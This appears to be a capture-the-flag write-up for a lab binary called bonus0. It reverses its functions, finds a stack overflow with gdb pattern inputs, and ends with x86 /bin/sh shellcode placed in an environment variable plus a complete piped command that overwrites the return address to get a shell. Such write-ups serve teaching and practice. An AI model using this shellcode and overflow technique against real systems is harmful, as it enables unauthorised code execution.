 ## FlagBonus0 README: Finding FlagBonus0
LE = little Endian

So we have 2 function p and pp and our main function.

**Main**
Create a buf of size 42
Call pp with our buff
and then call puts

**pp**
allocate 2 buffer src with 20 space and v3 with 28 spaces
call p with src and call p with v3.
copy src to the dest.
then add at the end this adress : 0x080486A4
return concatenation of dest and v3

**p**
allocate 4104 buffer and read stdin to the size 4096. Search for \n and replace it with \0 and copy what we have read for 20 caracteres in our param.

So let's try to put some value and inspect the stack :

(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x42424242: Input/output error.

0x42424242 in ?? ()


and we segfault with the second arguments. Let's try to find where :

Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09

Breakpoint 2, 0x0804855e in pp ()
(gdb) s
Single stepping until exit from function pp,
which has no line number information.

Breakpoint 1, 0x0804859d in pp ()
(gdb) s
Single stepping until exit from function pp,
which has no line number information.
0x080485b9 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAAaA00aA01aA02aA03aA04��� aA00aA01aA02aA03aA04���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x61333041: Input/output error.

0x61323041 in ?? ()
0x61323041 in text = a20A in LE so in normal it's A02a

So we figure it's 9 element after our input that we segfault. Now we can try to put an adress that will execute the shell.

To do that we are going to create a var env that will have our shellcode:
```Bash
export shellcode="`python -c 'print("\x90" * 30 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`"
```

we now need to find what's the adress for that we are going to use the getenv func and print his ptr.See env_variable_finder.c.
and for me here is the adress : 0xbfffff01 (in LE \x01\xff\xff\xbf).

So let's try to put many car we want as the first input and then 8 random char + \x01\xff\xff\xbf as our second input. Then cat it to let bash open.

To do that in bash it will look like this
```Bash
(python -c 'print("A" * 30)'; python -c 'print("B" * 9 + "\x01\xff\xff\xbf" + "A02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09")'; cat) | ./bonus0
```
and let s go we have our bash
